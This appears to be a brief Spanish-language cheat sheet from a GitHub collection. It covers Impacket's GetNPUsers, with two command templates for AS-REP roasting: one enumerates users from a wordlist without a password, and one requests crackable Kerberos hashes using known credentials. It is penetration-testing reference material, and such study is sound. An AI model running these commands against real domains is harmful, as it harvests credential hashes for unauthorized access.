 # GetNPUsers Cheat Sheet

#### Ataque TGT usando un archivo de listado de posbles usuarios
```
impacket-GetNPUsers <DOMAIN>/ -no-pass -usersfile <FILE-USERS>
```

#### ASRepRoast Attack - con usuario y contraseña que tengamos
```
impacket-GetNPUsers -dc-ip <IP> -request -outputfile hashes.asreproast <DOMAIN>/<USER>
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)